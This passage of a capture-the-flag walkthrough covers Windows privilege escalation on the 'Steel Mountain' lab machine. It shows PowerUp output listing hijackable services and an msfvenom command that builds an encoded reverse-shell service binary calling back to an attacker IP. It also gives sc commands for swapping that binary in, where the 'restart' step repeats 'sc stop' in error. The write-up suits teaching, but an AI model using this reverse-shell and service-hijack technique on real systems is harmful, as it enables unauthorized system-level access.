 ```bash
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
CanRestart     : False
Name           : AWSLiteAgent
Check          : Unquoted Service Paths

...

ServiceName                     : LiveUpdateSvc
Path                            : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
CanRestart                      : False
Name                            : LiveUpdateSvc
Check                           : Modifiable Service Files

```

Lol who even use Iobit products anymore??

```bash
└─$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.8.4.19 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
[sudo] Mot de passe de nairolf32 :
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe-service file: 15872 bytes
Saved as: ASCService.exe
```

Note how I named the file `ASCService.exe` (and not Advanced.exe in the misleading example from the hint)
because that is actually the name of the service binary we need to overwrite for our `unquoted service` attack
you can use whatever command to replace/move it to the right path (`copy` command ftw)
Oh yeah you better stop the service before replacing

`sc stop AdvancedSystemCareService9`

And when you are done just prepare another listenner and restart your malicious service

`sc stop AdvancedSystemCareService9`

And then you pwn this machine like a b055!

